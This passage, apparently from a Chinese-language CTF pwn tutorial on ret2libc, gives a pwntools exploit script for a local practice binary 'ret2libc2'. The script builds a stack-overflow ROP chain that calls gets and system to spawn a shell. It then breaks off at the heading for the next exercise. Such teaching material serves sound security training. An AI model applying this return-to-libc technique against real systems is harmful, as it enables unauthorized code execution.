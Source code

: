 第二种是第一种的复杂写法，可以参考上面的多次调用函数的结构，用完即扔

[![](assets/1701612384-2a0d252729220163dbd38a911f44d95d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204336-90dfa2d0-167a-1.png)

exp:

```plain
from pwn import *

io = process("./ret2libc2")
elf = ELF("./ret2libc2")
sys_plt_addr = 0x8048490
buf2_addr=0x804a080
gets_addr=0x8048460
pop_ebx_ret_addr=0x0804843d #这里是利用 ROPgadget 找了一下只有 pop ebx;ret;

payload=b'A'*112 + p32(gets_addr)+p32(pop_ebx_ret_addr)+p32(buf2_addr)+p32(sys_plt_addr)+b'b'*4+p32(buf2_addr)

io.sendline(payload)
io.interactive()
```

例题三：**ret2libc3**

[![](assets/1701612384-101d70042a5578d29a8156eff7ea1204.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204341-93901884-167a-1.png)
